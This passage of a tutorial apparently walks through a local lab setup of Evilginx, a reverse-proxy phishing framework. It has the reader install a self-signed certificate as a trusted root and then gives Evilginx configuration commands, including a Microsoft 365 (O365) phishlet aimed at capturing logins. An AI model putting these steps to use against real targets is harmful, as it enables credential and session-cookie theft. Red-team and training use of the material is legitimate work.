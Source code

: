 For this step, it's easier to follow the video instructions, but here is the gist anyway.



Open [https://etech-it.com.au/](https://etech-it.com.au/) in your Chrome browser.

Ignore the Unsafe Site warning and proceed to the page.


Click the SSL icon > Details > Export Certificate
**IMPORTANT:** When saving, the name MUST end with .crt for Windows to open it correctly.

Double-click it > install for current user. Do NOT select automatic, instead place the certificate in specific store: select "Trusted Route Certification Authorities".



**On Mac:** to install for current user only > select "Keychain: login" **AND** click on "View Certificates" > details > trust > Always trust



**Now RESTART your Browser**

You should be able to visit `https://etech-it.com.au` now and see the homepage without any SSL warnings.


## Running Evilginx:


At this point, everything should be ready so we can go ahead and start Evilginx, set up the phishlet, create our lure, and test it.

```
cd ~/evilginx/
```

```
./evilginx -developer
```

Evilginx Config:

```
config domain etech-it.com.au
```

```
config ipv4 127.0.0.1
```


**IMPORTANT:** Set Evilginx Blacklist mode to NoAdd to avoid blacklisting Apache since all requests will be coming from Apache and not the actual visitor IP.

```
blacklist noadd
```



Setup Phishlet and Lure:

```
phishlets hostname O365 etech-it.com.au
```
